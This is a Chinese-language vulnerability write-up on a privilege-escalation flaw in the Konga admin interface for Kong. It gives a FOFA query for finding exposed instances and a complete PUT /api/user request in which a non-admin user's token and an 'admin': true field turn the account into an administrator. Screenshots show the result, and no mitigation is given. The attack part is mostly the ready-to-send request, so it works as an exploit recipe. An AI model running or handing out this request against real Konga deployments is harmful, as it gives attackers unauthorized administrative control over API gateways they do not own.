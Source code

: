 # Konga 普通用户越权获取管理员权限漏洞

## 漏洞描述

Konga 普通用户通过发送特殊的请求可越权获取管理员权限

## 漏洞影响

```
Konga
```

## FOFA

```
"konga"
```

## 漏洞复现

登录页面



![image-20220210184626593](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101846658.png)

创建非管理员用户后登录并获取token



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101847245.png)



发送请求包, 将token修改为刚刚获取的



```plain
PUT /api/user/7 HTTP/1.1
Host: 127.0.0.1:1337
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=utf-8
Content-Length: 241

{
  "admin": true,
  "passports": {
    "password": "1234abcd",
    "protocol": "local"
  },
  "password_confirmation": "1234abcd",
  "token": "non-administrator user token"
}
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101847809.png)



成功转为管理员用户



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101847129.png)
